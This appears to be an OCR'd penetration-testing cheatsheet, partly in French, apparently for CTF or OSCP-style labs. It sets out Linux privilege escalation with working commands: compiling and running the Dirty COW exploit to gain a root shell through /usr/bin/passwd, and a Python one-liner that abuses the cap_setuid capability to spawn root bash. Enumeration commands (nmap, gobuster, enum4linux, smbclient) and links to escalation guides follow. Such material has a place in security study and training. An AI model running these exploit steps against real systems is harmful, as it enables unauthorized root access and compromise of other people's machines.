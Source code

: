 ### KERNEL EXPLOIT :
1 ) run the linux exploit suggester_pl 
```bash  
perl PATH/SCRIPT.PL  
```
2 ) use the desired vuln : here dirty cow  
compile :
```bash
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
```
run and let it finish : 
```bash
./c0w	
/usr/bin/passwd	-> allow to gain te root shell
```
### CAPABILITIES
```bash
getcap -r / 2>/dev/null
```
From the output, notice the value of the “cap_setuid” capability.  
#### Example : 
/usr/bin/python2.6 = cap_setuid+ep
```bash
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```


## Les endroits où faire des recherches:
```
https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html
https://payatu.com/guide-linux-privilege-escalation
```


# CHEATSHEET 

### ENUMERATION :
```bash
nmap -p- -vv -sV IP
```


### SERVER WEB
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x txt,php,html,js -u http://10.10.245.130
```

### SMB (139 445)
```bash
enum4linux IP
smbclient //IP//Share
```
